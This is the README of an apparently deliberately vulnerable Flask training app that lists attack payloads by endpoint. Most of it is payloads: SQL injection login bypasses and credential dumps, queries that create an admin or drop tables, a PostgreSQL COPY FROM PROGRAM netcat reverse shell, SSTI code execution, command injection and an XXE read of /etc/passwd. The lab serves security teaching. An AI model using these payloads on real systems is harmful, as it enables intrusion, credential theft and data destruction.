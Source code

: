 # eTechAcademy Flask App

## Vulnerabilities

### SQL Injection
#### Retrieve Data
Paths: `/login` and `/index`
Methods: `GET, POST`

**Examples:**
- Log into admin account with SQL
```
username: ' OR 1=1--
password: a

OR 

username: admin 
password: ' OR 1=1--
```

- Vulnerable query database on `/index`
```
' OR 1=1--
' UNION SELECT username,password FROM users--
' UNION SELECT username || ':' || password,role FROM users--
```

Resources: [Sqli CheatSheet](https://book.hacktricks.xyz/pentesting-web/sql-injection)

**SQL Fix:**
```
cur.execute("SELECT user_id, role FROM users WHERE username = %s AND password = %s", (username, password))
```

#### Insert/Update/Drop Data
**Examples**
Path: `/add_course`
Methods: `GET, POST`

*Note:* Must be **Instructor/Admin** role and you must select instructor and set image_path for this to work properly.
```
# Insert new admin user
New Course', 'Malicious Description', NULL, 'image.jpg'); INSERT INTO users (username, password, role) VALUES ('evil', 'evil', 'admin'); --

# Update admin password
New Course', 'test', NULL, 'test.jpg'); UPDATE users SET password = 'testing' WHERE username = 'admin'; --

# Drop table
New Course', 'test', NULL, 'test.jpg'); DROP TABLE courses CASCADE; --

```

#### RCE Via SQL Injection (Postgresql)
Path: `/add_course`
Methods: `GET, POST`

**Example:**
```
NewCourse', 'test', 1, 'test'); DROP TABLE IF EXISTS cmd_exec; CREATE TABLE cmd_exec(cmd_output text); COPY cmd_exec FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP PORT >/tmp/f'; SELECT * FROM cmd_exec;--
```

### Server-Side Template Injection
Paths: `/search_course`
Methods: `GET, POST`

**Examples:**
```
{{ 7 * 7 }}
```

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

Other resources: [SSTI Cheatsheet](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)

### Command Injection
Path: `/admin_dashboard/system_monitor`
Methods: `GET, POST`

**Examples:**
```
whoami
cat /etc/passwd
```

### XML External Entity Injection (XXE)
XXE Injection allows for injection of XML entities to access or manipulate files on application.

Path: `/process_xml`
Methods: `POST`

**Example**
```
<!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<root>
   <title>Test Title</title>
    <description>&xxe;</description>
</root>
```

Other resources: [XXE Cheatsheet](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity)